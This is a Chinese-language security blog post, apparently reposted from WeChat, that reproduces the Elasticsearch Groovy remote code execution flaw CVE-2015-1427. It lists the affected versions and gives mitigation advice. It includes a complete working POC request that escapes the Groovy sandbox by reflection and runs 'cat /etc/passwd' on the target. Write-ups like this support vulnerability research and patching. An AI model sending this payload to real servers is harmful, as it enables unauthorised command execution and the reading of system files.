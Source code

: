 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gaLFPkLpeIy1SC3dmBY9VA)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa24an9TvS6grA3sWoTRYSQr4oCwuZgRaUPIJV1AesaAsTmry4zs6pvkE64q5U77Dz3TdpLFhEcdcRA/640?wx_fmt=jpeg)

**（ElasticSearch Groovy 远程代码执行漏洞   CVE-2015-1427）**

**前言：**  

Elasticsearch 是一个基于 Lucene 的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于 RESTful web 接口。Elasticsearch 是用 Java 语言开发的，并作为 Apache 许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

**漏洞描述：**  

曾经被曝出过一个 ElasticSearch 远程代码执行漏洞（CVE-2014-3120） ，漏洞出现在脚本查询模块，由于搜索引擎支持使用脚本代码（MVEL），作为表达式进行数据操作，攻击者可以通过 MVEL 构造执行任意 java 代码。

后来脚本语言引擎换成了 Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行，

**漏洞复现:**

POC:

```
POST /_search?pretty HTTP/1.1
Host: ip:9200
User-Agent: python-requests/2.21.0
Accept: */*
Connection: close
Content-Length: 409

{"size":1,"script_fields": {"gem#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"}}}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24an9TvS6grA3sWoTRYSQr4xX3Y0sJKkbdHNuMnKGkBSKl2Gas71HOmJaLB3UsnsCb5UzLIPvhXuQ/640?wx_fmt=png)

**受影响版本：**  

<table><tbody><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.1</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.2</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.0&nbsp;&nbsp;</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.4.0:Beta1&nbsp;&nbsp;</td></tr><tr><td width="268" valign="top">Elasticsearch Elasticsearch</td><td width="268" valign="top">1.3.7<br></td></tr></tbody></table>

**修复建议：**

关闭外网 关闭 groovy script；

在 elasticsearch.yml 进行配置加 script.groovy.sandbox.enabled: false 配置完需要重启 es 服务；

更新最新版本。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa260lZABWwEo49lodRtpGIOoYYt5Ojm4Y1sdMD4ez7rL55g1IW3icCTOia91YicOrh1sjuOB5TiaUibCiaiaA/640?wx_fmt=jpeg)

一起学习，请关注我![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24an9TvS6grA3sWoTRYSQr4hZQYrCwcz8gD1evatvHgAquT3YhfNMxgqib63eQ1mRnQVjQA6W9icxFg/640?wx_fmt=png)

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。